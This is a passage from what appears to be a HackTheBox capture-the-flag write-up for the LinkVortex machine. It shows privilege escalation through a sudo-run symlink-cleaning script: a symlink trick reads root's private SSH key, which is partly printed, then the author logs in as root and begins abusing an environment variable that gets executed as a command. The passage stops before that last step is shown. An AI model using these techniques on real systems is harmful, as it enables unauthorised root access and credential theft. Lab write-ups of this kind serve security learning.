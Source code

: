 It works! In my testing this worked nearly every time.

#### SSH

With either method to read a file, I can also read root’s private SSH key:

```

bob@linkvortex:/$ ln -s /home/bob/.bashrc /dev/shm/toctou.png
bob@linkvortex:/$ CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /dev/shm/toctou.png 
Link found [ /dev/shm/toctou.png ] , moving it to quarantine
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmpHVhV11MW7eGt9WeJ23rVuqlWnMpF+FclWYwp4SACcAilZdOF8T
...[snip]...
ICLgLxRR4sAx0AAAAPcm9vdEBsaW5rdm9ydGV4AQIDBA==
-----END OPENSSH PRIVATE KEY-----

```

I’ll save a copy locally and connect with `ssh`:

```

oxdf@hacky$ ssh -i ~/keys/linkvortex-root root@linkvortex.htb
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)
...[snip]...
root@linkvortex:~#

```

#### Exploit $CHECK\_CONTENT

At this line in the script, the author is expecting `$CHECK_CONTENT` to be either `false` or `true`:

```

    if $CHECK_CONTENT;then

```

However, `false` and `true` are just commands that return 1 and 0 respectively (as shown here by echoing the return code stored in `$?`):

```

bob@linkvortex:~$ false ; echo $?
1
bob@linkvortex:~$ true ; echo $?
0

```

There’s no reason I can’t pass other commands in. I’ll create a symlink:
